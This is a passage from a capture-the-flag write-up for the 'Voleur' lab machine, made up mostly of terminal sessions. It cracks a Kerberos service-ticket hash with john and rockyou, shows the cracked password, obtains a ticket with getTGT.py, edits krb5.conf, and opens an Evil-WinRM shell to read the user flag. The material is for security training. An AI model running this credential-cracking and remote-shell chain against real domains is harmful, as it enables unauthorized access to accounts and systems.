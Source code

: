 anddd we got it lets try to crack them.

```bash
➜  voleur vim svc_winrm.hash
➜  voleur john svc_winrm.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
AFireInsidedeOzarctica980219afi (?) 
```

lets grab user.txt ;)

```bash
➜  voleur faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" getTGT.py voleur.htb/svc_winrm:'AFireInsidedeOzarctica980219afi'               
[*] Saving ticket in svc_winrm.ccache
```

and modify /etc/krb5.conf

```bash
[libdefaults]
        default_realm = VOLEUR.HTB
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        fcc-mit-ticketflags = true
        dns_canonicalize_hostname = false
        dns_lookup_realm = false
        dns_lookup_kdc = true
        k5login_authoritative = false
[realms]
        VOLEUR.HTB = {
                kdc = voleur.htb
                admin_server = voleur.htb
                default_admin = voleur.htb
        }
[domain_realm]
        .voleur.htb = VOLEUR.HTB
```

abd boommmmm

```bash
➜  voleur faketime "$(ntpdate -q voleur.htb | cut -d ' ' -f 1,2)" evil-winrm -r voleur.htb -i dc.voleur.htb                       

                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_winrm\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc_winrm> cd Desktop
*Evil-WinRM* PS C:\Users\svc_winrm\Desktop> type user.txt
9c8940d1129bb11f34c0397cf44e200a
```
